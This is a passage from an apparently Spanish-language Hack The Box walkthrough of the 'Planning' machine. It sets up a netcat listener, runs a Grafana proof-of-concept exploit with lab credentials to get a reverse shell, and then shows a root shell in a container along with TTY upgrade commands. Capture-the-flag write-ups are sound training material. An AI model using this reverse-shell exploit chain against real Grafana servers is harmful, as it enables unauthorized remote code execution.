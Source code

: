 Antes de ejecutar el exploit, pondremos un puerto a la escucha, en mi caso, el `443`, que será el puerto por el cual recibiré la conexión

~~~ bash
nc -lvnp 443
~~~

Ejecutaremos el exploit enviando los siguientes parámetros, tales como la URL de Grafana, las credenciales que utilizamos para iniciar sesión en el servicio, y los datos de nuestro listener, recuerda usar tu IP de HTB en el parámetro `--remote-ip`

~~~ bash
python3 poc.py --url http://grafana.planning.htb/ --username admin --password '0D5oT70Fq13EvB5r' --reverse-ip 10.10.14.169 --reverse-port 443 

[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 443
~~~


## Shell as `root` - `Grafana` Container

Recibiremos la conexión y ganaremos acceso como `root` a un contenedor, podemos comprobarlo por el nombre del host y la IP

~~~ bash
nc -lvnp 443   
listening on [any] 443 ...
connect to [10.10.14.169] from (UNKNOWN) [10.10.11.68] 50428
sh: 0: can't access tty; job control turned off
# id                       
uid=0(root) gid=0(root) groups=0(root)
# hostname -I
172.17.0.2
# hostname
7ce659d667d7
~~~

### TTY Treatment

Haremos un tratamiento de la `tty` para obtener una consola más interactiva que nos permita  desplazarnos, hacer `Ctrl + C` sin que muera la consola, limpiar la pantalla con `Ctrl + L` y tener las proporciones de nuestra terminal 

~~~ bash
# script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@7ce659d667d7:~# ^Z
[1]  + 55575 suspended  nc -lvnp 4646
root@parrot planning # stty raw -echo; fg
[1]  + 55575 continued  nc -lvnp 4646
                                     reset xterm

root@7ce659d667d7:~# export TERM=xterm
root@7ce659d667d7:~# stty rows 44 columns 184
~~~
<br>

